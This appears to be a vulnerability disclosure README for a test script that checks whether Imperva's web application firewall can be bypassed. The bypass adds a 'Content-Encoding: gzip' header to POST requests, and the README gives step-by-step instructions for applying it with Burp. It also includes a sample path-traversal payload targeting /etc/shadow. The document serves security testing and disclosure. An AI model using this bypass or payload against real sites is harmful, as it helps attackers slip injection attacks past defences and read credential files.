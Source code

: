 # Imperva Web Application Firewall (WAF) POST Request Bypass 
Imperva-protected HTTP(S) servers are vulnerable to a trivial bypass that allows malicious POST payloads, such as unobfuscated SQL injection, to evade detection. 

## To Exploit It
Add the header `Content-Encoding: gzip` to your POST requests. Leave your POST data as-is. Don't encode it! That's it; you can put literally anything for the content encoding so long as the first four characters are `gzip`. Imperva just passes it through.

You can do this in Burp by using the proxy's Match & Replace feature:

![](https://i.imgur.com/bNPA1MW.png)

Add a new header like this:

![](https://i.imgur.com/fJtQ8A1.png)

That's it; you're good to go.

# Running the Test Script
Run `imperva_gzip.py` against a URL that supports POST requests like this:

Syntax:
	`./imperva_gzip.py [[-t] | [-r]] URL`

Guess the WAF type for a given URL:
```
$ ./imperva_gzip.py -t https://www.vulnerable.com/search
Imperva Incapsula
$ ./imperva_gzip.py -t https://www.wordpress-user.com/login
WordFence
$ ./imperva_gzip.py -t https://www.cloudflare-customer.com
Cloudflare
```

Check to see if the WAF is vulnerable to the gzip bypass:
```
$ ./imperva_gzip.py https://www.vulnerable.com/search
[+] Can we make POST requests to https://www.vulnerable.com/search?
[+] Checking for Imperva WAF...
[+] Attempting gzip bypass for UNIX trigger...
[+] Vulnerable! HTTP response code: 200
[+] Attempting gzip bypass for Windows trigger...
[+] Vulnerable! HTTP response code: 200
```

If you get this error:
```
$ ./imperva_gzip.py https://www.vulnerable.com/search
[+] Can we make POST requests to https://www.vulnerable.com/search?
[!] Can't POST to https://www.vulnerable.com/search. Try -r if 30x redirects are allowed. HTTP response code: 302
```

then try passing `-r` on the command line to enable relaxed mode. Relaxed mode is off by default, which means a POST request is expected to elicit an HTTP 200 response from the server. `-r` expands the acceptable responses to HTTP 2xx, 3xx.

## Scripting
The exit codes for `imperva_gzip.py` are as follows:

```
0: Returned after getting WAF type.
1: Command-line was invalid.
2: There was an error connecting. Could be DNS error, timeout, etc.
3: No WAF was detected; malicious UNIX/Windows payloads weren't blocked.
4: A WAF was detected, but it wasn't Imperva.
5: The server responded to a test POST request with something other than HTTP 200.
128: There is an Imperva WAF, but it is not vulnerable to the gzip bypass.
129: The bypass was effective for the UNIX payload, but not the Windows one.
130: The bypass was effective for the Windows payload, but not the UNIX one.
131: The bypass was effective against both Windows and UNIX payloads.
```

## Process to Manually Test for Vulnerability
Send three POST requests:

1. Establish a baseline POST request/response with a valid but harmless POST request
2. Trigger the Imperva WAF using the same POST request, but with extra “malicious” data such as `&test=../../../../../../../etc/shadow` in the body to verify that Imperva blocks it
3. Add the header `Content-Encoding: gzip` to the same malicious request and verify that Imperva doesn't block it

## Other Encodings
According to https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Encoding, there are four valid values for the `Content-Encoding` header:

* `compress`
* `deflate`
* `gzip`
* `br`

In testing, only `gzip` appears to work as a bypass. I wonder if gzip is whitelisted for performance reasons?

## Affected Versions
I don't know. Version information isn't obvious with Imperva's WAF. What we do know is that this bug has previously been identified in a separate Imperva product called SecureSphere. The [release notes for v12.6 of SecureSphere](https://docs.imperva.com/bundle/v12.6-release-notes/page/64973.htm) contain this paragraph:

> SPHR-58185: When SecureSphere failed to decompress POST body in requests with "Content-Encoding: gzip/deflate" header, it issued no alert and let the request through.

This sounds like exactly the same bug! The issue was resolved for SecureSphere in February 2021, but we don't know when it was introduced. It's possible that the vulnerability has been there for years. Moreover, the same bug in two products from the same company implies a common codebase between WAF and SecureSphere. It's likely that there are other common security bugs in the two products. 

## Config Issue or Legit Bug?
I did some research to see if there are any gzip configuration options in Imperva WAFs, but I couldn't find anything (as of this post). Add to that the commonality of the bug between products and my best guess is that this is a bug, not a feature or a configuration issue.

## Mitigating
Put a WAF on your WAF?

## Contact
* Author: [@carllivitt](https://twitter.com/carllivitt)
* Bishop Fox: [@bishopfox](https://twitter.com/bishopfox)
* Continuous Offensive Security: [Cosmos](https://bishopfox.com/platform)
